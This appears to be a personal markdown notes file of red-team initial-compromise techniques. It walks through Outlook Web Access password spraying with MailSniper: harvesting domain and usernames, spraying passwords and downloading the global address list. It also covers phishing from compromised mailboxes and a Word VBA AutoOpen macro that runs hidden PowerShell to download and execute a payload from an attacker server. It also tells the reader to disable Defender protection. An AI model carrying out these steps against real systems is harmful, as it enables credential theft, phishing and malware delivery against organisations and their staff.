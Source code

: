 # Initial Compromise Notes

**Password Spraying**
I have a love/hate relationship with password spraying. Anyways, tools like [MailSniper](https://github.com/dafthack/MailSniper) or [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) can help.

Import MailSniper, turn off defenders real-time protection for this.
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Enumerate NetBIOS name of target domain with Invoke-DomainHarvestOWA from MailSniper. I find you can also enumerate this with nmap-ing smb of devices on a domain. Although that's more from doing labs so probably more usefull for ctf's, don't recommend because port scanning is really loud.
```
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

Not talked about yet, but check the websites for possible users or social media, add their names into an arbitrary file like names.txt for us to use a tool like namemash.py that turns this name into possible username permutations. 
```
./namemash.py names.txt > possible.txt
```

Now we can use Invoke-UsernameHarvestOWA to enumerate for possible users using this possible.txt and the NetBIOS we enumerated from before.
```
Invoke-UsernameHarvestOWA -ExchHostname <email subdomain> -Domain <domain> -UserList possible.txt -OutFile valid.txt
```

Now password spray, you can get easy to test passwords from places like [weakpasswords.net](https://weakpasswords.net/)
```
Invoke-PasswordSprayOWA -ExchHostname <email subdomain> -userList valid.txt -Password <password>
```

MailSniper has other functions like downloading the glabal address list
```
Get-GlobalAddressList -ExchHostname <mail subdomain> -UserName <domain\poppedUser -Password <password found> -OutFile gal.txt
```

**internal phishing**
With user creds you could just go to that email subdomain through a browser and logging in and sending phishing emails like that. 

**Initial Access Payloads**
You can attach a payload in the email or send a url where to download the malicious file. MOTW exists for any files downloaded via a browser which makes the file look untrusted. 

## VBA Macros
We can use VBA Macros to exist code using microsoft office. Open word on the attacker desktop go to View>Macros>Create. Change the "Macros in" field from "All active templates and documents" to "Document 1". Give the macros a name and save it. To have it execute on open use AutoOpen, in the below it will download a powershell payload from beacon that we set up. The /a is the powershell payload URI, and the attackerserver is the teamserver we are using to host this. You can check beacon payloads in command and control to review this.  
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<attackerserver>/a'))"""

End Sub
```

